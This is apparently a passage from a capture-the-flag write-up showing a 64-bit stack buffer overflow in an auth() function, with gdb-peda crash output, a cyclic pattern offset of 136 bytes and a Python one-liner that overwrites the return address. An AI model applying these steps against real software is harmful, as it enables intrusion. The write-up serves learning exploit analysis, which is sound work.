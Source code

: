     0056| 0x7fffffffdfa0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA"...)        
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000000000401618 in auth ()
    

In x64, I’m not going to see the segfault with the pattern in RIP like I would
in x86. Instead, it throws an exception on trying to move an invalid address
into RIP. Since I’m at a `ret`, the address moving into RIP is on top of the
stack. So the value that would go into RIP is `AAQAAmAA`. That is part of the
string I control, which means getting control over RIP is possible.

Furthermore, I can use `pattern_offset` to see how far into the input buffer
those bytes are:

    
    
    gdb-peda$ pattern_offset AAQAAmAA
    AAQAAmAA found at offset: 136
    

I can do a sanity check:

    
    
    $ python3 -c 'print("A"*136 + "B"*8)'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    

When I enter that string at the prompt, it crashes here:

    
    
    [----------------------------------registers-----------------------------------]
    RAX: 0x0
    RBX: 0x0
    RCX: 0x7ffff7ec5804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f988c0 --> 0x0
    RSI: 0x4059c0 ("access denied.\nssword: ")
    RDI: 0x0
    RBP: 0x4141414141414141 ('AAAAAAAA')
    RSP: 0x7fffffffdf68 ("BBBBBBBB")
    RIP: 0x401618 (<auth+261>:      ret)
    R8 : 0x7ffff7f9d500 (0x00007ffff7f9d500)
    R9 : 0x7ffff7f97848 --> 0x7ffff7f97760 --> 0xfbad2a84
    R10: 0xfffffffffffff638
    R11: 0x246
    R12: 0x401170 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe060 --> 0x1
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x40160d <auth+250>: call   0x401050 <puts@plt>
       0x401612 <auth+255>: mov    eax,0x0
       0x401617 <auth+260>: leave  
    => 0x401618 <auth+261>: ret    
       0x401619 <main>:     push   rbp
       0x40161a <main+1>:   mov    rbp,rsp
       0x40161d <main+4>:   sub    rsp,0x10
       0x401621 <main+8>:   mov    eax,0x0
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdf68 ("BBBBBBBB")
    0008| 0x7fffffffdf70 --> 0x7fffffffe000 --> 0x0
    0016| 0x7fffffffdf78 --> 0x0
    0024| 0x7fffffffdf80 --> 0x401740 (<__libc_csu_init>:   push   r15)
    0032| 0x7fffffffdf88 --> 0x7ffff7dff09b (<__libc_start_main+235>:       mov    edi,eax)
